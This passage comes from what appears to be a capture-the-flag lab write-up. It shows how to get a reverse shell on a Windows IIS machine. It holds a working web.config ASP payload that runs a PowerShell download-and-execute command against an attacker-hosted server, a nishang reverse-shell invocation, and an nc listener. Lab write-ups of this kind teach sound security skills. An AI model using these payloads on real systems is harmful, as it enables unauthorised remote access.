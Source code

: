 ```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, change the _web.config_ file to download the PowerShell script and execute it.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Upload the _web.config_ file and view it.

![](https://miro.medium.com/max/678/1*XNUp2itsgs1YEkcYHUVBBQ.png)

We get a shell! Let’s try to grab the _user.txt_ flag.

```text
PS C:\windows\system32\inetsrv> cd c:\Users\merlin\Desktop
PS C:\Users\merlin\Desktop> dir
PS C:\Users\merlin\Desktop>
```

The _Desktop_ directory seems to be empty. Let’s use the _attrib_ command to see if the file is hidden.

![](https://miro.medium.com/max/647/1*Cp3Gv6exqqckboPAHAii7g.png)

The file is there, it’s just hidden. View the _user.txt_ flag.

![](https://miro.medium.com/max/702/1*UDAbyPeDQ1eUrfqgvLTF8w.png)

## Privilege Escalation <a id="8ece"></a>

